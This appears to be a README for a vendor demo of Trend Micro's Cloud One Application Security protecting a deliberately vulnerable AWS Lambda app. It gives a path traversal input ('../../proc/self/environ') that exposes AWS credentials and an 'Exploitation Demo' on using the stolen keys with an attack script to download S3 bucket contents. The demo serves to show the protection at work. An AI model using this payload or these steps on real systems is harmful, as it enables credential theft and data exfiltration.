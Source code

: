 # Cloud One Application Security - Severless demo

A demonstration of how Trend Micro's "Cloud One: Application Security" product can be used to protect serverless applications.

More information can be found [here](https://www.trendmicro.com/en_au/business/products/hybrid-cloud/cloud-one-workload-security.html), as well as in the [docs.](https://cloudone.trendmicro.com/docs/application-security/introduction/#)

## Deployment
### Lambda layer

1. Create an Application Security Lambda Layer:
    
   ```
    mkdir /tmp/python
    cd /tmp/python
    pip3 install --target=/tmp/python trend-app-protect
    cd ..
    zip -r trend.zip python
    aws lambda publish-layer-version \
        --layer-name app-protect \
        --description "App Protect" \
        --zip-file fileb://trend.zip \
        --compatible-runtimes python3.7
    ```

### Deploy app
 
1. Obtain the Layer ARN.
2. Create the CloudFormation stack:
 
     ```
    aws cloudformation create-stack \
    --stack-name ApplicationSecurityDemo \
    --template-body file://cfn.yaml \
    --parameters ParameterKey=ApplicationSecurityLayerArn,ParameterValue=<LAYER_ARN> \
    --capabilities CAPABILITY_IAM
    ```

## Attack the unprotected app

1. Obtain the app's URL:

    ```
    aws cloudformation describe-stacks --stack-name ApplicationSecurityDemo --query "Stacks[0].Outputs[?OutputKey=='AppUrl'].OutputValue" --output text    
    ```

2. Enter the following string into the form:

    ```
   ../../proc/self/environ
    ```
   
Among other things, the following values are shown:

* AWS_ACCESS_KEY_ID
* AWS_SECRET_ACCESS_KEY
* AWS_SESSION_TOKEN

These keys can be used by an attacker to access and control your AWS account. See the **"Exploitation Demo"** below for more information. 

## Protecting the app

1. Log into [Application Security.](https://dashboard.app-protect.trendmicro.com/)
2. Create a new "Group".
3. Set "Illegal File Access" to "**Mitigate**". 
4. Obtain the `Key` and `Secret` credentials.
5. Use these credentials to set the Lambda's `TREND_AP_KEY` and `TREND_AP_SECRET` API keys.
6. Try exploiting the app again:

    ```
   ../../proc/self/environ
    ```

## Exploitation Demo

In this section of the documentation we'll cover how the aforementioned keys can be used for nefarious purposes.

For the purposes of this demo, let's pretend the Lambda required S3 bucket access.  

1. Add the following policy to the Lambda's role:

    ```
    {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Sid": "VisualEditor0",
                "Effect": "Allow",
                "Action": [
                    "s3:GetObject",
                    "s3:ListAllMyBuckets",
                    "s3:ListBucket"
                ],
                "Resource": "*"
            }
        ]
    }
    ```

    **Note:** The above policy gives the script read access to **all buckets**. If you'd like to specify a specific bucket ARN, please do so.

2. Take the "stolen" keys and set them as environment variables:

    ```
    export AWS_ACCESS_KEY=<ACCESS_KEY>
    export AWS_SECRET_KEY=<SECRET_KEY>
    export AWS_SESSION_TOKEN=<SESSION_TOKEN> 
    ```

    Optional: Specify where you want the downloaded objects to be stored on your system:

    ```
    export BASE_DEST_DIR=<DIR_PATH> # defaults to /tmp/<bucket_name>
    ```

3. Navigate to the `code` directory. Execute the `attack_script.py` script with the name of a bucket or the `all` keyword.

    **Note:** Use caution when specifying the `all` keyword. It will cause the script to download all objects from all S3 buckets. 

### Example runs

Executing the script with the `super-secret-bucket-2812093901231` bucket name specified:

```
python3 attack_script.py super-secret-bucket-2812093901231
Checking if super-secret-bucket-2812093901231 exists...
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-1-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-2-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-3-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-4-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-5-data.txt

====================================================================================================
Successfully downloaded 5 files
```

Executing the script with the `all` keyword specified:

```
attack_script.py all
Found bucket: super-secret-bucket-2812093901231
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-1-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-2-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-3-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-4-data.txt
Downloading: /tmp/super-secret-bucket-2812093901231/data/user-5-data.txt

Found bucket: trendcontainerdemo-cicd-artifact-vhjlbmrdb250ywluzxjezw1vlunjq0
Downloading: /tmp/trendcontainerdemo-cicd-artifact-vhjlbmrdb250ywluzxjezw1vlunjq0/Trend-Container-Imag/AppCode/P38kz5n
Downloading: /tmp/trendcontainerdemo-cicd-artifact-vhjlbmrdb250ywluzxjezw1vlunjq0/Trend-Container-Imag/AppCode/bLjODwJ

====================================================================================================
Successfully downloaded 7 files
```
   
# Contact

* Blog: [oznetnerd.com](https://oznetnerd.com)
* Email: [will@oznetnerd.com](mailto:will@oznetnerd.com)
